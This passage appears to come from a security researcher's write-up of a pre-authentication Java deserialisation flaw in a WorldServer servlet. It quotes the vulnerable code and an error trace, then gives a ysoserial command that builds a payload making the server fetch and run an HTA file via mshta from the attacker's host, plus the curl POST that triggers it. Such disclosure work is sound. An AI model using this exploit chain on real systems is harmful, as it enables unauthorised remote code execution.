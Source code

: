 ```
      Configuration.getLog().log(5, 4, "Processing request: " + request);
      Response response = rh.processRequest(request, pc.getWSContext());
      if (response.getErrorCode() != -1 && pc
        .getTransaction().isOutstanding())
        pc.getTransaction().commit();
      pc.getResponse().setContentType("application/x-java-serialized-object");
      pc.getResponse().setHeader("Content-Encoding", "gzip");
      ObjectOutputStream oos = new ObjectOutputStream(new GZIPOutputStream((OutputStream)pc.getResponse().getOutputStream()));
      oos.writeObject(response);
      oos.close();
    } catch (ClassNotFoundException e) {
      reportError(pc, 800, "Received malformed request", e);
    } catch (MessageException e) {
      reportError(pc, 801, "Received invalid request", (Throwable)e);
    } catch (Throwable e) {
      reportError(pc, 802, "Exception encountered during request handling", e);
    }
  }
```

This code seems to deserialise Java objects without any sanitisation or authentication, which is very exciting from an attacker’s point of view, so we set the appropriate content-type header and send the POST request with some invalid text, resulting in the following error:

```
Exception encountered during request handling:
java.io.StreamCorruptedException: invalid stream header: 74657374
at java.io.ObjectInputStream.readStreamHeader(ObjectInputStream.java:938)
at java.io.ObjectInputStream.&lt;init&gt;(ObjectInputStream.java:396)
at com.idiominc.ws.servlet.ClientSupport.handle(ClientSupport.java:60)
at com.idiominc.ws.servlet.WSHttpServlet.handleServlet(WSHttpServlet.java:388)
at com.idiominc.ws.servlet.WSHttpServlet.service(WSHttpServlet.java:155)
```

This seems pretty straightforward - so let’s generate a serialised Java payload and see what happens. Using  ysoserial, we create another MSHTA payload for our Metasploit server:

```
java -jar ~/tools/ysoserial/ysoserial-master-SNAPSHOT.jar CommonsCollections1 'cmd.exe /c mshta http://10.0.0.131:8000/TeXlpKamWoJVqk7.hta' > ping.bin
```

Since we need to send the serialised payload in a raw format, we use the following curl command:

```
curl --data-binary @ping.bin http://10.0.0.142:8080/ws-legacy/clientLogin -H "Content-Type: application/x-java-serialized-object"
```

This results in the command being executed on the server, confirming we have Pre-Auth Remote Code Execution by POST’ing a raw serialised object:

![22](https://www.triskelelabs.com/hs-fs/hubfs/22.png?width=581&height=589&name=22.png)

